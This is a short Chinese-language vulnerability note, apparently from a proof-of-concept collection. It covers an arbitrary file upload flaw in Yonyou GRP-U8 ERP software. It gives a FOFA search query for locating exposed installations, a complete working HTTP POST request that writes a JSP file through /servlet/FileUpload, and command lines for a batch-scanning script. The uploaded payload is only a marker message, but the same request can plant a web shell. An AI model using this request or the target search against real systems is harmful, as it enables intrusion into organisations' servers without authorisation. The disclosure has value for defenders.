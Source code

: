 # 用友GRP-U8 FileUpload 文件上传漏洞

### 1.漏洞描述

用友GRP-U8是一款功能强大、灵活性高、可定制性强的企业资源管理软件，它可以帮助企业高效地管理资源，优化运营流程，提升整体管理水平。该产品存在任意文件上传漏洞。

### 2.fofa语法

```
app="用友-GRP-U8"
```

### 3.漏洞复现

```
POST /servlet/FileUpload?fileName=test.jsp&actionID=update HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Content-Length: 51
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

<% out.println("This page has a vulnerability!");%>
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832814287-678467e0-4265-4e17-bd3b-e23fa5c6956e.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

浏览器访问上传路径

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832852691-b2862779-2991-4845-a2d1-bdda4d126224.png?x-oss-process=image%2Fformat%2Cwebp)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```

